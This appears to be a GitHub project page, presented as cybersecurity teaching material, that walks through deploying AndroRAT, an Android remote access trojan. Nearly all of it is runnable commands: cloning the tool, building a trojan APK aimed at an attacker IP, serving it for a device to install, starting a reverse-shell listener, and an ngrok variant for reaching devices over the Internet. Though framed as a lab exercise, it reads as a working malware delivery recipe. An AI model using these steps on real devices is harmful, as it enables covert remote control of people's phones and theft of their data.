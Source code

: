 ```yaml
---
layout: page
title: AndroRAT Deployment
permalink: /projects/androrat/
---
```

## 🧪 Project Overview

This project demonstrates the controlled deployment and configuration of **AndroRAT** (Android Remote Administration Tool) for **educational and research purposes** within a secured cyber range. It was designed for teaching cybersecurity students the fundamentals of Android payload delivery, command & control, and post-exploitation techniques in a **legal and ethical** environment.

---

## 🎯 Key Goals

- Understand Android reverse shell mechanics
- Configure and deploy AndroRAT in **same-network** and **Internet-facing** modes
- Operate AndroRAT's shell listener and payload builder
- Simulate attacker behavior and train detection responses

---

## ⚙️ Technologies Used

- **Python 3.12+**
- **Virtual Environment (`venv`)**
- **Linux (Kali & Ubuntu 24.04)**
- **Ngrok (for WAN connections)**
- **Android (Real Device or Emulator)**
- **VS Code, Git, Termux (optional)**

---

## 📌 Setup & Execution

### 📡 Same-Network Deployment

```bash
# 1. Clone the AndroRAT repo
git clone https://github.com/karma9874/AndroRAT.git
cd AndroRAT

# 2. Create a virtual environment
python3 -m venv venv

# 3. Activate the environment
source venv/bin/activate

# 4. Install required packages
pip install -r requirements.txt

# 5. Build the APK
python3 androRat.py --build -i <Attacker_IP> -p 8000 -o rat.apk

# 6. Host the APK using a simple HTTP server
python3 -m http.server 8080

# 7. On the Android device, download and install rat.apk

# 8. Start the AndroRAT listener
python3 androRat.py --shell -i <Attacker_IP> -p 8000

# 9. Wait for reverse shell connection ✅

# 1. Build the APK with ngrok tunnel
python3 androRat.py --build --ngrok -o rat.apk

# 2. Install APK on Android device

# 3. Start listener (Ngrok auto-handles the tunnel)
python3 androRat.py --shell
